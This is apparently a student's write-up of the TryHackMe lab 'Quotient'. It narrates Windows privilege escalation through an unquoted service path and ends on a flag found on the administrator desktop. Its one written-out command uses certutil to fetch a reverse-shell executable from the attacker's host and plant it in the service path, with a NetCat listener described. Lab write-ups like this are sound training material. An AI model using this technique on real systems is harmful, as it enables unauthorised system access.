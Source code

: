 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

![3cc90c64c1d1ac43d1aef70c73009f4e.png](../_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png)

<p>
  <img height="128" src="./_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png" title="RDP Connect">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

![658494285c75fb47f7e816ce2fc218a1.png](../_resources/658494285c75fb47f7e816ce2fc218a1.png)

It looks like we're not very special and only have general access.

![3dadeb6debd6380cdab64b97820bbbaa.png](../_resources/3dadeb6debd6380cdab64b97820bbbaa.png)

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

![a0b61d9dd05b25eb245f52e170b292a1.png](../_resources/a0b61d9dd05b25eb245f52e170b292a1.png)

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

![95562cfa26ee77ee2229ff38837c2efb.png](../_resources/95562cfa26ee77ee2229ff38837c2efb.png)

Let's investigate.

![0ada677f68c1d969a7520527e7a983c4.png](../_resources/0ada677f68c1d969a7520527e7a983c4.png)

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

![69003b3b6fa29e0ca5cd9b402cc1815c.png](../_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png)

Now we need to start a web server on our Kali machine.

![7eed70e4cd3a5000fb4542483de44f67.png](../_resources/7eed70e4cd3a5000fb4542483de44f67.png)

And we need to download the executable from our target machine.

![e2c62b94d766594d957550f4eabbe889.png](../_resources/e2c62b94d766594d957550f4eabbe889.png)

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

![e57fff9a846ab29bc1461d3146275646.png](../_resources/e57fff9a846ab29bc1461d3146275646.png)

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

![d65e82940e2f358055650fc96fb76da2.png](../_resources/d65e82940e2f358055650fc96fb76da2.png)

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

![f314cea54ab81f3928c495244f3b2faa.png](../_resources/f314cea54ab81f3928c495244f3b2faa.png)
* * *
### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

![b9983bdb900bafc38d417afd67737caa.png](../_resources/b9983bdb900bafc38d417afd67737caa.png)
* * *
### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.

